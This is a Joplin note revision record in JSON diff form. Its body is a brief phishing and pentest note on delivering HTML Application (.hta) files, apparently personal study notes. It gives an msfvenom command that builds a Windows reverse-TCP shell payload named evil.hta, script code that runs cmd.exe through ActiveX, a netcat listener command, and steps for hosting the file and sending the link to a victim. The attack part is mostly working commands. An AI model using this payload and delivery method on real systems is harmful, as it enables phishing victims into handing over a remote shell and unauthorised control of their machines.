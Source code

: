 id: d2b8f446bf2843d5b0825aeaa36fc0b0
parent_id: 
item_type: 1
item_id: 96ad790d9c474b8eb811b50b79756a67
item_updated_time: 1652884440476
title_diff: "[{\"diffs\":[[1,\"HTML APPs (.hta)\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":17}]"
body_diff: "[{\"diffs\":[[1,\"Can use the setoolkit for Phishing deployment; Go Youtube\\\n\\\nActiveX Objects must be usable in the victim browser\\\n\\\n> msfvenom -p windows/shell\\\\_reverse\\\\_tcp LHOST=&lt;kali ip&gt; LPORT=4444 -f hta-psh -o ./evil.hta\\\n> \\\n> \\\\# Paste this in the &lt;script&gt; tags\\\n> \\\n> var c = 'cmd.exe';\\\n> \\\n> new ActiveXObject('WScript.Shell').Run(c);\\\n> \\\n> &lt;script&gt;self.close();&lt;/script&gt;\\\n\\\nVariable names will have been randomized\\\n\\\nHost the HTA app in a Webserver\\\n\\\nSetup a Netcat Listener\\\n\\\n> nc -nlvp 4444\\\n\\\nSend the link to the victim to get him to download it\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":550}]"
metadata_diff: {"new":{"id":"96ad790d9c474b8eb811b50b79756a67","parent_id":"00b28c92e0a5415cbf7110cda063173b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-05-18T14:39:10.783Z
created_time: 2022-05-18T14:39:10.783Z
type_: 13